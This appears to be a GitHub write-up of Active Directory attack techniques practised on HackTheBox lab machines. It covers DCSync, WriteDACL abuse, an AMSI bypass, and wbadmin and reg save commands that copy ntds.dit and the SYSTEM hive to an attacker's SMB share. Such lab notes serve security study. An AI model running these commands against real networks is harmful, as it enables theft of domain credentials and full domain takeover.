 
## 4. NTDS.dit and System.hive
Description: With these files and the appropriate permissions, an attacker can dump hashes from the Domain Controller using DCSync.
Environment: Blackfield from Hackthebox

Instead of creating a new mount like conda, another way that Unkown Artists shows off is to use wbadmin backup tool to backup to smb shares

from evil-winrm
copy to your smb share
`echo "Y" | wbadmin start backup -backuptarget:\\<your-ip>\<share> -include:c:\windows\ntds`
Get version identifier of the share you just made
`wbadmin get versions`
Start recovery with:
`echo "Y"|webadmin start recovery -version:<version-identifier> -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\ -notrestoreacl`
get hive
`reg save HKLM\\SYSTEM c:\system.hive`
copy

This involves SMB stuff that seemed to not work well for him, try conda's way first.

## 3.Account Operators/WriteDACL
Description: In the account operators group, an attacker can create users and place them in non-protected groups. Placing a new user in a group with WriteDACL, enables an attacker to modify the new user's DACL. In this example, we give our new user DCSync rights.
Environment: Forest from Hackthebox 

Finds that Exchange Windows Permissions is an non-protected group that have WriteDACL 

![image](https://user-images.githubusercontent.com/83407557/186469340-9dfff867-ee26-4bfd-a1b2-504180d5e5be.png)



## 2. ByPassing AMSI 
Description: It may be necessary to bypass the anti-virus in Active Directory. Attackers can attempt to bypass AMSI with the Bypass-4MSI command in Evil-WinRM. Always run this command before introducing a malicious script to the environment. 
Environment: Forest from Hackthebox
Timestamp: 48:11

![image](https://user-images.githubusercontent.com/83407557/186469790-81ec4863-cbfc-4537-8d89-e21283491100.png)


## 1. DCSYNC/GetChangesAll/Replication
Description: This is number one because its the most fun. DCSync allows an attacker to impersonate a Failover Domain Controller. In that context, the production Domain Controller shares all user hashes upon request, ergo DCSYNC. GetChangesAll, Replication and AllowedToDelegate all point toward the possibility of DCSYNC.
Environment: Forest/Sizzle 
Timestamp: 53:14
